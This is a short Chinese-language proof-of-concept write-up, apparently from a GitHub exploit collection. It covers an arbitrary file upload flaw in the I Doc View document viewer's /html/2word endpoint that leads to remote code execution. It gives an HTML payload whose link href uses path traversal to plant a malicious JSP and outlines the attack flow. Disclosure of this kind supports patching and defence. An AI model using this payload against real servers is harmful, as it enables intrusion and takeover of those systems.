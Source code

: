 
## I Doc View任意文件上传漏洞
I DOC VIEW是一个在线的文档查看器，其中的/html/2word接口因为处理不当，导致可以远程读取任意文件，通过这个接口导致服务器下载恶意的JSP进行解析，从而RCE。

## POC构造
流程：携带恶意link[href]的html -> 远程获取  -> 解析出href -> 远程获取恶意文件

poc.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后构造 `..\..\..\docview\poc.jsp`  这个是文件
![image](https://github.com/wy876/POC/assets/139549762/736f7c0a-4f06-4170-805a-cf1580b69de3)

![image](https://github.com/wy876/POC/assets/139549762/73ab1c2a-ad91-40a3-96b0-0ca978fa9abe)

## 漏洞分析
```
https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg
```
